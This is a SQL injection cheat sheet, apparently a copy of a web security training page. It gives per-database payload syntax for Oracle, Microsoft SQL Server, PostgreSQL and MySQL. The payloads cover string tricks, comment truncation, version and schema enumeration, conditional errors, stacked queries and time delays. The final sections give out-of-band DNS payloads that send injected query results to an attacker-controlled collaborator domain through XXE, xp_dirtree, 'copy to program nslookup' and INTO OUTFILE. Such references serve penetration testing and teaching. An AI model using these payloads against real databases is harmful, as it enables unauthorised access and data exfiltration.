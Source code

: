 <h1>SQL injection cheat sheet</h1>

This SQL injection cheat sheet contains examples of useful syntax that we can use to perform a variety of tasks that often arise when performing SQL injection attacks. 

## String concatenation

We can concatenate together multiple strings to make a sigle string.

```
Oracle      'foo'||'bar'

Microsoft   'foo'+'bar'

PostgreSQL  'foo'||'bar'

MySQL       'foo' 'bar' [Note the space between the two strings]
            CONCAT('foo','bar')

```

## Substring

We can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string 'ke'.

```
Oracle      SUBSTR('hacker', 4, 2)

Microsoft   SUBSTRING('hacker', 4, 2)

PostgreSQL  SUBSTRING('hacker', 4, 2)

MySQL       SUBSTRING('hacker', 4, 2)
```

## Comments

We can use comments to truncate a query and remove the portion of the original query taht follows our input.

```
Oracle      --comment

Microsoft   --comment
            /*comment*/
              
PostgreSQL  --comment
            /*comment*/
              
MySQL       #comment
            -- comment [Note the space after the double dash]
            /*comment*/

```

## Database version

We can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

```
Oracle      SELECT banner FROM v$version
            SELECT version FROM v$instance
              
Microsoft   SELECT @@version

PostgreSQL  SELECT version()

MySQL       SELECT @@version
```

## Databse contents

We can list tables that exist in the database, and the columns that those tables contain.

```
Oracle      SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
              
Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
              
PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
              
MySQL       SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

```

## Conditinal errors

We can test a single boolean condition and trigger a database error if the condition is true.

```
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual

Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END

MySQL 	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

## Batched (or stacked) queries

We can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarly of use in relation to blind vulnerabilites where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

```
Oracle 	    Does not support batched queries.

Microsoft 	QUERY-1-HERE; QUERY-2-HERE

PostgreSQL 	QUERY-1-HERE; QUERY-2-HERE

MySQL 	    Does not support batched queries. 
```

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

```
Oracle 	    dbms_pipe.receive_message(('a'),10)

Microsoft 	WAITFOR DELAY '0:0:10'

PostgreSQL 	SELECT pg_sleep(10)

MySQL 	    SELECT sleep(10)

```

## Conditional time delays

We can test a single boolean condition and trigger a time delay if the condition is true.

```
Oracle 	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

MySQL 	    SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```

## DNS lookup

We can cause the database to perform a DNS lookup to an external domain. To do this, we will need to user Burp Collaborator client to generate a unique Burp Collaborator subdomain that we will use in our attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

```
Oracle 	    The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
            SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote  SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

            The following technique works on fully patched Oracle installations, but requires elevated privileges:
            SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')

Microsoft 	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'

PostgreSQL 	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'

MySQL 	    The following techniques work on Windows only:
            LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
            SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```

## DNS lookup with data exfiltration

We can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, we will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that we will use in our attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltred data.

```
Oracle 	    SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote  SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')

PostgreSQL 	create OR replace function f() returns void as $$
            declare c text;
            declare p text;
            begin
            SELECT into p (SELECT YOUR-QUERY-HERE);
            c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
            execute c;
            END;
            $$ language plpgsql security definer;
            SELECT f();

MySQL 	    The following technique works on Windows only:
            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'
```
